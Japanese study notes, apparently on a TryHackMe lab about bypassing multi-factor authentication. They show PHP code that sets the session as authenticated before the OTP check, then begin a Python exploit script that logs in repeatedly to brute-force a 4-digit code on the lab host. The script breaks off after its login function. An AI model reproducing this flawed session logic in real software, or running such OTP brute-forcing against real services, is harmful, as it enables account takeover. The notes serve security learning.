 一文にすると、
「送信された OTP がセッションに保存されているトークンと存在しているか。値も型も一致するか。を確認し、一致すれば認証成功」

#### 脆弱性があるコード
MFAをバイパス可能なコード例
```sh
# 認証情報の確認
function authenticate($email, $password){
  $pdo = get_db_connection();
  $stmt = $pdo->prepare("SELECT `password` FROM users WHERE email = :email");
  $stmt->execute(['email' => $email]);
  $user = $stmt->fetch(PDO::FETCH_ASSOC);

  return $user && password_verify($password, $user['password']);
}

# 認証情報があっているかの確認しかしていない
if (authenticate($email, $password)) {
    $_SESSION['authenticated'] = true;　#この一行が悪い
    $_SESSION['email'] = $_POST['email'];
    header('Location: ' . ROOT_DIR . '/mfa');
    return;
}
```

- OTPの認証の前に `$_SESSION['authenticated']` をTrueにしてしまう
	- /dashboardは、`$_SESSION['authenticated']`がTrueかFalseしか見ていないのでdashboardが表示されちゃう


## スクリプトによる攻撃
アプリの概要
- ユーザーは 2FA を 1 回でも失敗すると自動ログアウト
	- セッションが作り直されて、また新しいOPTが設定される
- アプリはログインごとに 4 桁 PIN（1250〜1350）であることがわかってる

exploit.py
- 対象`http://mfa.thm/labs/third/`に対して、4桁PINなので、何回も送りつけて本当にサーバー側のOPTが1337の時に通るようにしている
- サーバーが生成するOPTは2FAのコードが変わることを利用している
```sh
import requests

login_url = 'http://mfa.thm/labs/third/'
otp_url = 'http://mfa.thm/labs/third/mfa'
dashboard_url = 'http://mfa.thm/labs/third/dashboard'

credentials = { 'email': 'thm@mail.thm', 'password': 'test123' }

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://mfa.thm',
    'Connection': 'close',
    'Referer': 'http://mfa.thm/labs/third/mfa',
    'Upgrade-Insecure-Requests': '1'
}

def is_login_successful(resp):
    return "User Verification" in resp.text and resp.status_code == 200

def login(sess):
    return sess.post(login_url, data=credentials, headers=headers)
```